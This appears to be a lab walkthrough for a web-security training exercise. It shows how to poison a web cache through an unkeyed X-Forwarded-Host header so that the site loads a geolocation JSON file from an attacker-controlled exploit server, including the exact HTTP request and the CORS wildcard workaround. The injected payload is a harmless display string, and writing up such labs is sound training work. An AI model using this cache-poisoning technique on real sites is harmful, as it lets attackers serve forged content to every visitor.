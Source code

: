 In Exploit Serve set File as: `/resources/json/geolocate.json`
In Exploit Serve set Body:

```json
{
	"country":"Omnissiah protects!"
}
```

Store the changes.

Now poison the cache with Request

```http
GET /?cb=whitedandelion HTTP/2
Host: my.web-security-academy.net
...
X-Forwarded-Host: exploit-my.exploit-server.net


```

And open in Browser.
Should work but it doesn't.

Check the console and notice:

```
Access to fetch at 'https://exploit-my.exploit-server.net/resources/json/geolocate.json' from origin 'https://my.web-security-academy.net' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

##### Relaxation of CORS specifications with wildcards

In Exploit Server set ACAO to `*` in Head section:

```http
HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Access-Control-Allow-Origin: *
```

Store the changes.

Remember cache resets after 30 secons so might need to wait a bit.

Open response in browser and notice:

```
Free shipping to Omnissiah protects!
```

```html
<div id="shipping-info" class="shipping-info">
	<img src="/resources/images/localShipping.svg">
	<div>Free shipping to Omnissiah protects!</div>
</div>
```
